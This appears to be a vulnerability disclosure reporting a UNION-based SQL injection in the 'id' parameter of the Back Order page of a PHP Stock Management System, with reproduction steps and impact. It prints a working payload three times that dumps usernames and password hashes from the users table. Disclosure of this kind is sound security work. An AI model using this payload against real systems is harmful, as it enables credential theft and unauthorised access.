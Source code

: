 #### 1. **Vulnerability Overview**

- **Vulnerable Endpoint**: `/sms/admin/?page=back_order/view_bo&id=4`
- **Vulnerable Parameter**: `id`
- **Issue Type**: SQL Injection
- **Software URL**: `https://www.sourcecodester.com/php/15023/stock-management-system-phpoop-source-code.html`

---

#### 2. **Vulnerability Description**

A SQL injection vulnerability has been identified in the Back Order page of the Stock Management System, specifically in the `id` parameter of the following endpoint:`/sms/admin/?page=back_order/view_bo&id=4`

This vulnerability allows an attacker to inject arbitrary SQL queries into the backend database by manipulating the `id` parameter. The vulnerability can be exploited using a UNION-based SQL injection payload.

By injecting the following payload into the `id` parameter:

``` SQL
-4' UNION SELECT 1,2,3,4,5,6,7,8,9,10,(SELECT group_concat(username,0x3a,password) FROM users LIMIT 0,1),12,13,14,15,16-- -
```

An attacker can perform a **UNION SELECT** query that returns sensitive data from the `users` table, specifically usernames and MD5 hashed passwords. This information can be easily extracted and used for unauthorized access or other malicious activities.

This exposure of user credentials, even if hashed, poses a serious security risk as attackers could attempt to crack these hashes or use them to gain unauthorized access to the system.

---

#### 3. **Steps to Reproduce**

1. Login to a staff member account.
2. Access the vulnerable page: `/sms/admin/?page=back_order/view_bo&id=4`.
3. Modify the `id` parameter to the following payload:  
    `-4' UNION SELECT 1,2,3,4,5,6,7,8,9,10,(SELECT group_concat(username,0x3a,password) FROM users LIMIT 0,1),12,13,14,15,16-- -`
4. The response will contain the concatenated usernames and password hashes of users stored in the `users` table.

---

#### 4. **SQL Injection Payload**

`-4' UNION SELECT 1,2,3,4,5,6,7,8,9,10,(SELECT group_concat(username,0x3a,password) FROM users LIMIT 0,1),12,13,14,15,16-- -`

---

#### 5. **Proof of Concept (PoC)**

Below is a screenshot of the proof of concept, demonstrating the SQL Injection attack in action, which allows the attacker to reveals sensitive user credentials.

![1](https://github.com/th3w0lf-1337/Vulnerabilities/blob/main/SMS-PHP/SQLi/Back-Order/Back-Order-1.png)
![2](https://github.com/th3w0lf-1337/Vulnerabilities/blob/main/SMS-PHP/SQLi/Back-Order/Back-Order-2.png)

---

#### 6. **Impact**

This vulnerability has a significant impact on the security of the application. An attacker with knowledge of this vulnerability can:

1. Extract usernames and password hashes from the `users` table.
2. Potentially use these hashes to crack the passwords.
3. Gain unauthorized access to sensitive areas of the application or escalate privileges.

---
